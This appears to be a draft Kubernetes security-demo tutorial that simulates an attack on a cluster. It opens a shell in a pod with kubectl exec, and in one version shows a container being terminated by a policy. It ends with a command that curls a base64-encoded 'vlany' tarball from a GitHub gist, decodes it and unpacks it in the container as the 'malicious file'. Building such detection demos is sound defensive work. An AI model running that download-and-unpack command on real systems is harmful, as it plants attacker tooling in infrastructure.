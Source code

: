 # The Attack

<<Need to finalize and test these steps on production

Let's simulate an attack on our cluster.  In this example we will use `kubectl exec` to download a `tar` file, explode it and run some other nefarious commands.

First let's create a deployment.

```
$ kubectl create ns voting-app
$ kubectl apply -f manifests/ -n voting-app
$ kubectl get pods -n voting-app

```
Verify the Pod has STATUS 'Running' and READY '1/1'

```
$ kubectl get pods -n voting-app
NAME                      READY   STATUS    RESTARTS   AGE
voting-65f88748fd-mbhcc   1/1     Running   0          5m54s
```

Make a note the Pod name.


Now that the deployment is running, let's simulate the attack.  Run the following command to create a shell into the running Container, substituting the pod name as appropriate

```
$ kubectl exec -it nginx-65f88748fd-mbhcc -n voting-app-- /bin/bash
root@nginx-65f88748fd-mbhcc:/#
```

Create a directory in the container

```
$ mkdir policy-test
root@nginx-65f88748fd-mbhcc:/# command terminated with exit code 137
$
```

<<< Or this
Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`apt-get update &&
apt-get install curl -y &&
cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`
